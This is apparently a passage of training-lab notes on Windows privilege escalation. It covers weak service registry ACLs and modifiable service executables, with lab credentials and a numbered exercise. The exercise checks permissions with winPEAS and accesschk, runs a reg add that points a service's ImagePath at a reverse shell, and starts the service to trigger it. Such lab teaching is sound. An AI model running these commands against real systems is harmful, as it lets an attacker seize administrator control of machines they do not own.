 
### Weak Registry Permissions
The Windows registry stores entries for each service.
Since registry entries can have ACLs, if the ACL is 
misconfigured, it may be possible to modify a service’s 
configuration even if we cannot modify the service 
directly

---
**Exercise :**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password321

Connect to 10.12.1.100/24 with user account.

1. Run winPEAS to check for service misconfigurations:
    ````
    .\winPEASany.exe quiet servicesinfo

    ````
2. Note that the “regsvc” service has a weak registry entry. We can confirm this with 
PowerShell:
    ````powershell
    PS> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
    ````
3. Alternatively accesschk.exe can be used to confirm:
    ````cmd
    .\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
    ````
4. Overwrite the ImagePath registry key to point to our reverse shell executable:
    ````
    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
    ````
5. Start a listener on Kali, and then start the service to trigger the exploit:
    ````
    net start regsvc
    ````
AND BIM!

---

### Insecure Service Executables
If the original service executable is modifiable by our 
user, we can simply replace it with our reverse shell 
executable.
Remember to create a backup of the original executable 
if you are exploiting this in a real system!

---

**Exercise :**
- IP : 10.12.1.100/24
- ID : student\admin
- PASSWORD : password321
